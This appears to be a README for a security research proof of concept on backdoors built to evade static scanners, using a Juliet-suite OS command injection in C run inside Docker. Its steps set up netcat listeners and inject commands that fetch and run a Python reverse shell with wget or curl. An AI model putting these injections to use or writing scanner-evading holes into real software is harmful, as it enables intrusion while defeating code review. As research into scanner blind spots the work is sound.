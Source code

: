# SAST Scan Blindspot Backdoors
Example of vulnerable code with supporting exploit implementation whose data/control flow make it difficult for eneterprise static vulnerability scanners to detect problems with.

# Dockerized PoC for OS Command Injection RCE
*(Associated C code scans clean for command injection in most SAST tools)*

1. Build the Docker image
```
sudo docker build --progress=plain -t cwe78-poc-rce .
```
2. Run the Docker image interactively
```
sudo docker run --rm --network host -it --entrypoint /bin/sh cwe78-poc-rce
```
3. On local machine, set up listeners on ports 4444 and 4445 in two different terminals
```
nc -nvlp 4444
nc -nvlp 4445
```
4. Set up a http server in the directory with the python reverse shell script
```
sudo python3 -m http.server 80
```
5. In the docker shell, run the PoC binary
```
build/CWE78_OS_Command_Injection__char_connect_socket_execl_32
```
6. From the listener on port 4444, inject an OS command after the expected ls parameter. For example:
```
. && wget 127.0.0.1/shell.py && python shell.py
```
or
```
. && curl http://127.0.0.1/shell.py -o shell.py && python shell.py
``` 
(The buffer for reading input is 100 characters, so we need to host the script somewhere and grab it rather than entering here)

Finally, the http server should show that the python shell was requested and a shell should appear on the port 4445 listener.

## References
[Juliet Test Suite](https://samate.nist.gov/SARD/test-suites/112)
